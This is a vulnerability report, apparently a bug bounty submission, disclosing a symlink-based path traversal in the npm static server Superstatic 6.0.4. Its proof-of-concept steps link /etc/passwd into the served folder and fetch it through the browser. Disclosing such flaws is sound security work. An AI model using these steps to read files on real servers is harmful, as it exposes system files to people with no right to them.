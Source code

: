 # Description

I would like to report path traversal vulnerability in Superstatic module
It allows an attacker to read system files via path traversal vulnerability

# Module
module name: Superstatic
version: 6.0.4
npm page: https://www.npmjs.com/package/superstatic

Module Description

Superstatic is an enhanced static web server that was built to power. It has fantastic support for HTML5 pushState applications, clean URLs, caching, and many other goodies.
By default, Superstatic will simply serve the current directory

# Weekly Downloads

335,788

# Vulnerability Description

With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.


# POC

1)Install the Superstatic module
$ npm install -g superstatic

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run Superstatic module
$ Superstatic

6)Request the file within browser
http://localhost:3474/'filename'

# References

These are similar reports
https://hackerone.com/reports/510043
https://hackerone.com/reports/695416


# Impact
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on
